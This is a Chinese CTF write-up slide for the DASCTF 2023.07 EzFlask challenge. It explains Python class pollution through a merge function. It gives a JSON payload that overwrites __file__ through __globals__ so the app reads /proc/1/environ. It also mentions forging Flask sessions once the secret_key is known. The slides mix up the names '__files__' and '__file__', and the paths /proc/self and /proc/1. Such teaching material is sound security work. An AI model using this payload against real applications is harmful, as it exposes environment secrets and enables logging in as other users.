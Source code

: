 这样就可以伪造 Flask session 的 secret_key，从而伪造 session 中的任意数据来做到任意用户登录。

---

### 题目：EzFlask (DASCTF 2023.07)

使用提供的容器镜像启动服务：

```bash
docker load -i ezflask.tar
docker run -d -p 8000:8000 ezflask
```

服务运行后，访问 `http://localhost:8000/` 即可看到相关页面。

如何使用先前提到的漏洞，得到 Flag？

---

#### 解题思路

<v-clicks>

- 很经典的 `merge` 函数污染，先通过 `__class__.check.__globals__` 拿到当前文件的全局变量。
- 然后选择污染 `__files__` 变量指向的文件来进行读取。
  - 在 Python 原本的实现中，`__files__` 变量指向的是当前文件的完整路径，但是可以覆写。
  - Linux 系统中大概率存在 ProcFS，可以用来读取进程的环境变量、文件描述符、启动命令甚至内存。
    - 当然只有有权限的用户才能访问
- 所以只需要将 `__files__` 覆写为 `/proc/self/environ` 即可读取进程的环境变量，然后访问 `/` 端点即可获得环境变量中的 Flag：

  ```json
  {
    "username": "a",
    "password": "b",
    "__class__": {
      "check": {
        "__globals__": {
          "__file__": "/proc/1/environ"
        }
      }
    }
  }
  ```

</v-clicks>
